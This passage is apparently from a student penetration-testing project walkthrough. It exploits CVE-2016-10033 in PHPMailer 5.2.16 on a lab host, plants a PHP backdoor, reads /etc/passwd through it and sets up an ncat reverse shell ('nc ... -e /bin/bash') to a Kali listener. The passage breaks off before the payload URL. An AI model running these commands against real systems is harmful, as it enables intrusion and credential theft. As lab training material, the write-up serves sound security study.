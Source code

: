 The `VERSION` file shows the version of PHPMailer;

![](/24-Final-Project/ImagesProject/1-08.jpg)

**Command:** `searchsploit phpmailer`

![](/24-Final-Project/ImagesProject/1-09.jpg)

**Command:** `searchsploit -x /usr/share/exploitdb/exploits/php/webapps/40970.php`

![](/24-Final-Project/ImagesProject/1-10.jpg)

Confirming the link between PHPMailer 5.2.16 and CVE-2016-10033

- [CVE-2016-10033 (Remote Code Execution Vulnerability in PHPMailer)](https://nvd.nist.gov/vuln/detail/CVE-2016-10033)  
  - CVE-2016-10033 (Remote Code Execution Vulnerability in PHPMailer 5.2.16)  
    - Get access to the web services and search for a lot of confidential information.  
      - Exploiting PHPMail with back connection (reverse shell) from the target  

![](/24-Final-Project/ImagesProject/1-11.jpg)

Use the `exploit.sh` file, and add the IP: `192.168.1.115` for Target

![](/24-Final-Project/ImagesProject/1-12.jpg)

This script creates a backdoor which `ncat` can exploit: `/var/www/html/backdoor/php`

**Command:** `bash zexploit.sh`

![](/24-Final-Project/ImagesProject/1-13.jpg)

We now have a method to execute commands on the target, in the form of `192.168.1.115/backdoor.php?cmd=<CMD>`

To show the contents of the `passwd` file: 
**Command:** `192.168.1.115/backdoor.php?cmd=cat%20/etc/passwd'

![](/24-Final-Project/ImagesProject/1-14.jpg)

In order to activate the `ncat` session, we want to execute the command `nc 192.168.1.90 4444 -e /bin/bash` after we set up the listener in Kali. 

In order to set up the listener, we use the following command:

**Command:** `nc -lnvp 4444`
- `ncat` - Concatenate and redirect sockets
- `-l, --listen`               Bind and listen for incoming connections
- `-n, --nodns`                Do not resolve hostnames via DNS
- `-v, --verbose`              Set verbosity level (can be used several times)
- `-p, --source-port port`     Specify source port to use (**4444 in this case**)

![](/24-Final-Project/ImagesProject/1-15.jpg)

Deploying the payload will take the form of the following URL:
